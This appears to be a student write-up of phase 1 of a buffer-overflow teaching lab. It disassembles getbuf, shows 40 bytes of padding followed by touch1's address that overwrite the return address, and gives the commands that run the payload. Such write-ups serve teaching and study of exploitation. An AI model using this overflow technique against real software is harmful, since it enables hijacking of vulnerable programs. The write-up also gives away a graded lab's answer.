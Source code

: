 Firstly let's see assembly code: `objdump -d ctarget > ctarget.asm`

```c++
00401968 <test>:
  401968:  48 83 ec 08            sub    $0x8,%rsp
  40196c:  b8 00 00 00 00         mov    $0x0,%eax
  401971:  e8 32 fe ff ff         callq  4017a8 <getbuf>
  401976:  89 c2                  mov    %eax,%edx
  401978:  be 88 31 40 00         mov    $0x403188,%esi
  40197d:  bf 01 00 00 00         mov    $0x1,%edi
  401982:  b8 00 00 00 00         mov    $0x0,%eax
  401987:  e8 64 f4 ff ff         callq  400df0 <__printf_chk@plt>
  40198c:  48 83 c4 08            add    $0x8,%rsp
```

We notice that there is a call for `getbuf()`, and the address of `touch1` is `004017c0 <touch1>`.

```c++
004017a8 <getbuf>:
  4017a8:  48 83 ec 28            sub    $0x28,%rsp
  4017ac:  48 89 e7               mov    %rsp,%rdi
  4017af:  e8 8c 02 00 00         callq  401a40 <Gets>
  4017b4:  b8 01 00 00 00         mov    $0x1,%eax
  4017b9:  48 83 c4 28            add    $0x28,%rsp
  4017bd:  c3                     retq   
```

Here function `Gets` put the value we input in `%rsp`, see `disas Gets` for more details if you are interested.

Here is the stack:

```c
| return address |
|     0x28       |   
|     0x20       |
|     0x18       |   
|     0x10       |   
|     0x08       |
|     0x00       | 
```

So we should put more things than `0x28`, the additional `0x004017c0`covering the `return address`

Then we get the answer: (**little-endian**)

```c++
00 00 00 00 00 00 00 00    // 64 bit, 8 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00    // 0x28 bytes
c0 17 40 00                // use `touch1` to cover the return address
```

Save it in `phase_1_raw.txt`(remove the comments) then `./hex2raw <phase_1_raw.txt >phase_1.txt`
then `./ctarget -qi phase_1.txt` to pass the phase_1
